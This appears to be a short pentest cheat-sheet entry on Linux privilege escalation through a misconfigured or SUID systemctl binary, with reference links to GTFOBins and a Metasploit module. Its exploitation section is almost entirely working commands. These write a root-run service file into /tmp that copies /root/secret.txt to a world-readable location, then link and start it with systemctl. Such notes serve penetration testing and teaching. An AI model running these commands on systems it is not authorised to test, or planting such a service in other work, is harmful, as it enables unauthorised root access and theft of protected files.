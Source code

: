 # Tags
![Class](https://img.shields.io/static/v1?label=Class&message=Priviledge%20Escalation&color=yellow)

# Exploitation
If you have an access to any user on a system, you are able to execute different commands from **root** user.

Create a service file in any writable directory:

```sh
printf '[Service]\nUser=root\nExecStart=/bin/sh -c "cat /root/secret.txt > /tmp/output.txt"\n' > /tmp/root.service
```

Start the service:

```sh
systemctl link /tmp/root.service
systemctl start root.service
```

# References
[SUID binaries exploitation](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)

[SUID systemctl exploitation #1](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49)

[SUID systemctl exploitation #2](https://gtfobins.github.io/gtfobins/systemctl/)

[Metasploit](https://github.com/Code-L0V3R/suid_systemctl)
